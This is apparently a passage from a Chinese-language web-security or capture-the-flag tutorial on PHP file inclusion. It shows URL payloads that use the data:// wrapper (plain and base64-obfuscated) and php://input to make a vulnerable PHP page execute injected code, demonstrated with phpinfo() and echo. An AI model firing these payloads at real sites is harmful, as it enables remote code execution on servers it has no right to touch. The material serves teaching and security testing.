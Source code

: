 > data://text/plain在 PHP 中可用于打开文本数据流，而data:text/plain则是在 URL 中表示纯文本数据的 MIME 类型。

可以直接逗号,加php代码，也可以分号;base64编码混淆一下

用法：

```php
url?c=include$_GET[1];&1=data:text/plain,<?php phpinfo();?>
url?c=include$_GET[1];&1=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```

### 3.4 php://input

> 可以访问请求的原始数据的只读流，将post请求的数据当作php代码执行  

payload3：**url?c=include$_GET[1];&1=php://input**

POST:  

```php
echo'hello';
```